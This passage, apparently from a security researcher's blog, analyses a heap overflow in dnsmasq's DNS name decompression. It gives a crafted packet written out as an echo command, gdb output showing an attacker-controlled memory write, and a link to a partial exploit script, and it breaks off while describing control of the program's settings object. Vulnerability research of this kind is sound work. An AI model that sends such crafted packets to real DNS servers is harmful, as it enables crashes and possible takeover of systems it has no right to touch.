<pre id='vimCodeElement'>
$ <span class='in'>echo -ne '\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x08AAAAAAAA\xc0\x0c\x00\x00\x01\x00\x01' &gt; crash.bin</span>
$ <span class='in'>./dnsmasq -d --randomize-port --client-fuzz=./crash.bin</span>
<span class="Comment">[</span>...<span class="Statement">]</span>
Segmentation fault
</pre>

However, there are two termination conditions: it'll only loop a grand total of 255 times, and it stops after <tt>namelen</tt> reaches 1024 (non-period) bytes. So coming up with the best possible balance to overwrite what you want is actually pretty tricky - possibly even requires a bit of calculus (or, if you're an engineer, <a href='https://blogdata.skullsecurity.org/dnsmasq-partial-sploit.rb'>a program that can optimize it for you</a> :) ). 

I should also mention: the reason the "\xc0\x0c" is needed in the first place is that it's impossible to have a name string in that's 1024 bytes - somewhere along the line, it runs afoul of a length check. The "\xc0\x0c" method lets us repeat stuff over and over, sort of like decompressing a small string into memory, overflowing the buffer.

<h2>Exploitability</h2>

I mentioned earlier that it's a null-pointer deref:

<pre id='vimCodeElement'>
(gdb) <span class='in'>x/i $rip</span>
=&gt; <span class="Constant">0x7ffff73cc600</span> &lt;__strcpy_sse2+<span class="Constant">192</span>&gt;:  mov    BYTE PTR [rdx],al
(gdb) <span class='in'>print/x $rdx</span>
$1 = <span class="Constant">0x0</span>
</pre>

Let's try again with the crash.bin file we just created, using "\x08AAAAAAAA\xc0\x0c" as the payload:

<pre id='vimCodeElement'>
$ <span class='in'>echo -ne '\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x08AAAAAAAA\xc0\x0c\x00\x00\x01\x00\x01' &gt; crash.bin</span>
$ <span class='in'>gdb -q --args ./dnsmasq -d --randomize-port --client-fuzz=./crash.bin</span>
[...]
(gdb) run
[...]
(gdb) <span class='in'>x/i $rip</span>
=&gt; <span class="Constant">0x449998</span> &lt;answer_request+<span class="Constant">1064</span>&gt;:      mov    DWORD PTR [rdx+<span class="Constant">0x20</span>],<span class="Constant">0x0</span>
(gdb) <span class='in'>print/x $rdx</span>
$1 = <span class="Constant">0x4141412e41414141</span>
</pre>

Woah.. that's not a null-pointer dereference! That's a write-NUL-byte-to-arbitrary-memory! Those might be exploitable!

As I mentioned earlier, this is actually a heap overflow. The interesting part is, the heap memory is allocated once - immediately after the program starts - and right after, a heap for the global settings object (<tt>daemon</tt>) is allocated. That means that we have effectively full control of this object, at least the first couple hundred bytes:
